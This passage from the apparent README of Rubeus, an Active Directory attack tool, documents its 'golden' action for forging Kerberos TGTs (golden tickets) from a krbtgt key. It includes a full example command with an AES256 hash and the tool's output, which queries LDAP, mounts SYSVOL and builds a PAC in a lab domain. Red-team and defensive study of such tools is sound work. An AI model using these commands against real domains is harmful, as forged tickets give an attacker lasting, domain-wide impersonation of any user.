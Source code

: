 Lastly, if the `/netbios` argument is not given on the command line, an LDAP query for the proper netbios name of the domain is made from the *Configuration* container in order to set the LogonDomainName field in the PAC. If the `/ldap` flag is not given on the command line and the `/netbios` argument also is not given, the first element (before the first period '.') is uppercased and used instead.

The `/printcmd` flag can be used to print the arguments required to generate another ticket containing the same PAC information used to generate the current ticket. This will **not** print arguments related to the times the ticket is valid for as those are likely required to be different for any future tickets you want to forge.

### golden

The **golden** action will forge a TGT for the user `/user:X` encrypting the ticket with the hash passed with `/des:X`, `/rc4:X`, `/aes128:X` or `/aes256:X` and using the same key to create the ServerChecksum and KDCChecksum. The various arguments to set fields manually are described above or the `/ldap` flag can be used to automatically retrieve the information from the domain controller.

Forging a TGT using the `/ldap` flag to retrieve the information and the `/printcmd` flag to print a command to forge another ticket with the same PAC information:

    C:\Rubeus>Rubeus.exe golden /aes256:6a8941dcb801e0bf63444b830e5faabec24b442118ec60def839fd47a10ae3d5 /ldap /user:harmj0y /printcmd

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Build TGT

    [*] Trying to query LDAP using LDAPS for user information on domain controller PDC1.rubeus.ghostpack.local
    [*] Searching path 'DC=rubeus,DC=ghostpack,DC=local' for '(samaccountname=harmj0y)'
    [*] Retrieving domain policy information over LDAP from domain controller PDC1.rubeus.ghostpack.local
    [*] Searching path 'DC=rubeus,DC=ghostpack,DC=local' for '(|(objectsid=S-1-5-21-3237111427-1607930709-3979055039-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
    [*] Attempting to mount: \\pdc1.rubeus.ghostpack.local\SYSVOL
    [*] \\pdc1.rubeus.ghostpack.local\SYSVOL successfully mounted
    [*] Attempting to unmount: \\pdc1.rubeus.ghostpack.local\SYSVOL
    [*] \\pdc1.rubeus.ghostpack.local\SYSVOL successfully unmounted
    [*] Retrieving netbios name information over LDAP from domain controller PDC1.rubeus.ghostpack.local
    [*] Searching path 'CN=Configuration,DC=rubeus,DC=ghostpack,DC=local' for '(&(netbiosname=*)(dnsroot=rubeus.ghostpack.local))'
    [*] Building PAC

    [*] Domain         : RUBEUS.GHOSTPACK.LOCAL (RUBEUS)
    [*] SID            : S-1-5-21-3237111427-1607930709-3979055039
    [*] UserId         : 1106
    [*] Groups         : 513
    [*] ServiceKey     : 6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5
    [*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
    [*] KDCKey         : 6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5
    [*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
    [*] Service        : krbtgt
    [*] Target         : rubeus.ghostpack.local
